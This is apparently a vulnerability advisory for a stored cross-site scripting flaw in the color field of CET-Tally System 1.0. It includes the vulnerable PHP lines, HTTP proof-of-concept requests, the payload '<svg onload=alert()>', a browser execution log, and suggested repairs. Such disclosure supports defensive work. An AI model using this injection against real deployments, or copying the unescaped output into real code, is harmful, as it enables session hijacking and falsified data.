

# SourceCodester CET-Tally System 1.0 /index.php color= Stored XSS

## Author

- qwer1230011107

## Vendor and Software Links

- https://www.sourcecodester.com/php/18718/cet-tally-system-advanced-college-event-tallying-leaderboard-system-php-and-mysql.html
- https://www.sourcecodester.com/download-code?nid=18718

## Overview

- CET-Tally System (Advanced College Event Tallying & Leaderboard System), version 1.0 (current public download, 2026-11), stores the team "Identifier Color" value verbatim and renders it without HTML-encoding in three separate contexts of the Team Management page, allowing stored Cross-Site Scripting (XSS). The payload executes on every page load in the browser of any administrator who opens `/index.php?page=teams`.

## Details

- Vulnerable file: `/index.php` (single-file application — injection and render)
- Parameter: `color` (POST, `action=add_team` / `action=edit_team`)
- Affected version: 1.0 (current public download, 2026-11)
- Injection — the add/update handlers store the value verbatim via prepared statements. The statements make the write SQL-safe, but no input validation of any kind is applied; the UI's `<input type="color">` picker (index.php:1296) is purely client-side decoration and the server accepts any string:

```php
// index.php:149-151 — add_team
if ($_POST['action'] == 'add_team') {
    $stmt = $pdo->prepare("INSERT INTO teams (name, color) VALUES (?, ?)");
    $stmt->execute([$_POST['name'], $_POST['color']]);
// index.php:176-178 — edit_team (same omission)
    $stmt = $pdo->prepare("UPDATE teams SET name = ?, color = ? WHERE id = ?");
    $stmt->execute([$_POST['name'], $_POST['color'], $_POST['id']]);
```

- Render — on the Team Management page every sibling field is escaped, but `color` is echoed raw in three contexts:

```php
// index.php:997-998 — style attribute + ELEMENT CONTENT (fires on page load)
<span class="color-dot" style="background-color: <?= $t['color'] ?>"></span>
<span class="small text-muted text-uppercase"><?= $t['color'] ?></span>
// index.php:1003 — JavaScript string literal inside onclick=""
onclick="openEditTeamModal(<?= $t['id'] ?>, '<?= htmlspecialchars(addslashes($t['name'])) ?>', '<?= $t['color'] ?>')">
// contrast index.php:994 — the adjacent name field IS escaped:
<td class="fw-medium text-dark"><?= htmlspecialchars($t['name']) ?></td>
```

- The same raw value is also emitted on the Dashboard (index.php:730), Results & Reports (index.php:873) and Scores pages (index.php:941, :1237) inside `style="background-color: ..."` attributes.
- The `teams.color` column is `VARCHAR(20)` (index.php:19 / college_tally.sql:82) — payloads must fit 20 characters under MySQL strict mode, which the demonstration payload does exactly.

## Description

- An administrator (or anyone holding the shipped default credentials — see the related hard-coded credentials finding) submits a team whose color value is markup instead of a hex color. The INSERT/UPDATE stores it verbatim. Every subsequent render of `/index.php?page=teams` emits the stored string as real markup in three places: as element content (executes automatically on page load), inside an `onclick` attribute as a JavaScript string literal (executes when any Edit button of the row is clicked), and inside a `style` attribute. In a multi-admin deployment (event coordinators sharing the admin role is the system's intended usage) the payload runs in every other administrator's session and can silently falsify tallies (add/edit/delete teams, events and points), exfiltrate the leaderboard, or create additional malicious content. Because the product also ships hard-coded default credentials printed on the login page, a remote attacker needs no legitimate account holder's involvement at all.

## PoC

- Request — store the payload (admin session; the value is exactly 20 characters, the column's limit):

```
POST /index.php HTTP/1.1
Host: 127.0.0.1:8141
Cookie: PHPSESSID=<admin session>
Content-Type: application/x-www-form-urlencoded

action=add_team&name=POC-COLOR-A&color=%3Csvg%20onload%3Dalert()%3E
```

- Response:

```
HTTP/1.1 302 Found
Location: index.php?page=teams&success=Team successfully added!
```

- Render request:

```
GET /index.php?page=teams HTTP/1.1
Host: 127.0.0.1:8141
Cookie: PHPSESSID=<admin session>
```

- Response (payload emitted raw in all three sink contexts):

```
HTTP/1.1 200 OK
Content-type: text/html; charset=UTF-8

<span class="color-dot" style="background-color: <svg onload=alert()>"></span>
<span class="small text-muted text-uppercase"><svg onload=alert()></span> ...
<button ... onclick="openEditTeamModal(7, 'POC-COLOR-A', '<svg onload=alert()>')"> ... Edit
```

## Payload

```
<svg onload=alert()>
```

(20 characters — exactly fits `teams.color VARCHAR(20)`; a second demonstration team stored `<h1>XSS</h1>` as its color for the visual shot.)

## Screenshot: stored payload executing on the Team Management page

Two independent page loads of `/index.php?page=teams` each raised a JavaScript `alert` dialog immediately during page load (CDP reported `Open dialog: alert: .` both times — the stored `onload` handler executing), proving stored script execution, not merely markup reflection. The DOM inspection after dismissing the dialog showed the attacker strings parsed as live elements (`<svg onload="alert()"></svg>`, `<h1 id="E1">`, `<h1>XSS</h1>`). In the screenshot, team #10's stored `<h1>XSS</h1>` renders as a giant heading inside the COLOR column — attacker markup breaking out of the table cell as a live element.



Full evidence log: `poc/F01-team-color-stored-xss.txt` (complete request/response chain, all three sink contexts, browser execution transcript + DOM verification).

## Suggested repair

1. Validate at input: enforce the intended format server-side in `add_team`/`edit_team` — reject any `color` not matching `^#[0-9a-fA-F]{6}$` (the UI color picker only ever produces this form). This kills the whole class regardless of rendering changes.
2. Escape at render: apply `htmlspecialchars($t['color'], ENT_QUOTES, 'UTF-8')` at every echo of the value (index.php:730, :873, :941, :997, :998, :1237), and for the `onclick` context pass the value through `json_encode` instead of raw interpolation inside a JS string literal (index.php:1003).
3. Remove the shipped default accounts and the credential hint on the login page (see the hard-coded credentials finding) so that unauthenticated attackers cannot reach the injection endpoint.
4. Add a `Content-Security-Policy` header as defense in depth.

## Dedup note

- NVD: keyword searches for the product's three name variants ("College Event Tallying", "CET-Tally", "College Event Tally") return 0 CVEs (checked 2026-11-09).
- VulDB: no entries exist for this product at all (site searches returned none) — no same-file/parameter/type entry to collide with.
